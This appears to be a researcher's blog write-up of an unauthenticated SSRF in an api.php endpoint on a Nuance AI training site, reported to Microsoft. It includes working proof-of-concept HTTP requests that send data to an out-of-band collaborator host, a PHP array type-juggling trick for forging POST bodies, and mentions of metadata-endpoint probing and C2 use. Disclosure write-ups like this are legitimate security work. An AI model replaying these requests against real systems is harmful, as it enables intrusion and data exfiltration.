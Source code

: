 ```yaml
---
title: "Unauth HTTP SSRF in Nuance Ai Training Platform"
date: 2024-12-02T11:30:37-05:00
draft: true
tags: ["nuance", "ssrf", "ai", "msrc"]
---
```


I submitted another HTTP SSRF in MS services via MSRC recently, this time within an insecure `api.php` endpoint I found on `train.digital.nuance.com`. 

This was a full HTTP SSRF, capable of interacting with internal services, and could be used for both GET and POST requests, including sending full GET/POST bodies with arbitrary parameter/value pairs to arbitrary resources.

## Bounty?
None. A few weeks after submission, MS responded that they confirmed the bug, were investigating the issue, and asked for any more information I could provide. At this time I dug in a little bit more, finding the ability to submit full POST requests with bodies and arbitrary params. They didn't reply, and closed the case.

No "thank you", no "We've fixed it"... nothing, lol

![lame](image.png)

Anyway, here are the details.

## api.php

While performing some recon against MS infra, I came across an interesting site, `train.digital.nuance.com`, that appeared to be an online chat testing application. This app let users to connect to virtual "Agents" and interact with them and judging by the aptly named domain, it seemed likely this platform was intended to be used to train AI agents for Nuance, a Microsoft owned conversational AI.

Most of the traffic sent to the app were POSTs to an `api.php` endpoint, and contained several suspicious body params:
- `body`
- `domain`
- `endpoint`
- `params`, and
- `type`

Flipping the `domain` parameter to a burp collab server, the app sent the request and it turned out to be a full HTTP SSRF, response and everything. After playing with params the following PoC was reasonable enough to demonstrate some behavior.

![request-response](<Pasted image 20241027220537.png>)

Collab Receives:
![collab](<Pasted image 20241027220621.png>)

A few things about the request / responses above:
1. I changed the `endpoint`, `params`, and `type` values to see if those were sent too (they are) or modified the request method (they do)
2. The `token` parameter, a JWT, was automagically added by the app, no auth was actually needed
3. A POST is received by the collab (cool), but data in the `body` param wasn't sent... note that it was `{}` by default
4. The request was CSRF-able

I found it was also possible to interact with internal resources, such as VM metadata URLs, `http://169.254.169.254/xxx`. This could be inferred from application responses which included the error codes of the SSRF request itself should the SSRF fail, a useful mechanism for my purposes. Unfortunately, it wasn't possible to return data from the metadata URLs, as there wasn't a way to inject the required headers into the SSRF request (`metadata: true`). This, at least, provided some nice proof that interaction with local / internal resources was possible.

## Elevating the issue

One limitation of this bug remained the inability to forward POST bodies, even though the request method could be changed to a POST and an apparent `body` parameter was present. After trying a few more things, I recalled the server's response headers contained `X-Powered-By: PHP/7.3.33`. This clicked, and I sent a request with the `body` param of `body[]=test`-- an attempt to leverage PHP functionality known as "type-juggling":

```http
POST /api.php?tagserver/launch/agentAvailability HTTP/1.1
Host: train.digital.nuance.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 873

body[]=test&domain=176h3g72su9pqi3s87m5a1n9309rxlt9i.oastify.com&endpoint=test_endpoint&params=test_param%3dtest_value&token=[...]&type=POST
```

and now, the collaborator received:
```http
POST /test_endpoint?test_param=test_value HTTP/1.1
Host: 176h3g72su9pqi3s87m5a1n9309rxlt9i.oastify.com
Accept: */*
Content-Type: application/x-www-form-urlencoded
Authorization: Bearer [...]
Content-Length: 6

0=test
```

Surprise! Data could be sent after all. This is great, but a POST body parameter named `0` is unlikely to be particularly useful.

I've used type juggling before, but I didn't know it's possible to create an array element with an arbitrary name using it. Meaning, it becomes possible to send something like `body[param]=value` and forge a request that sends a POST body of `param=value`:

Request:
```http
POST /api.php?tagserver/launch/agentAvailability HTTP/1.1
Host: train.digital.nuance.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 879

body[param]=value&domain=176h3g72su9pqi3s87m5a1n9309rxlt9i.oastify.com&endpoint=test_endpoint&params=test_param%3dtest_value&token=[...]&type=POST
```

Collab receives:
```http
POST /test_endpoint?test_param=test_value HTTP/1.1
Host: 176h3g72su9pqi3s87m5a1n9309rxlt9i.oastify.com
Accept: */*
Content-Type: application/x-www-form-urlencoded
Authorization: Bearer [...]
Content-Length: 11

param=value
```

## Cool, right? 

This bug went from a simple HTTP SSRF to something much more, very quickly. To summarize, it let an attacker:

- Send and receive full HTTP requests to arbitrary destinations, including internal services
- Send both GET and POST methods, including arbitrarily provided URL and POST body parameters
- Exfiltrate data through the `body` and `token` parameters, resulting in requests routed through Microsoft infrastructure
    - This is also potentially very useful for C2, as traffic appears to be sent to legitimate Microsoft services

Even though Microsoft didn't provide any bounty for this issue, it was fun to see a full SSRF, something of a rareity these days. Also, a legitimate use for type juggling was fun to find, not sure I've ever used it in this fashion.

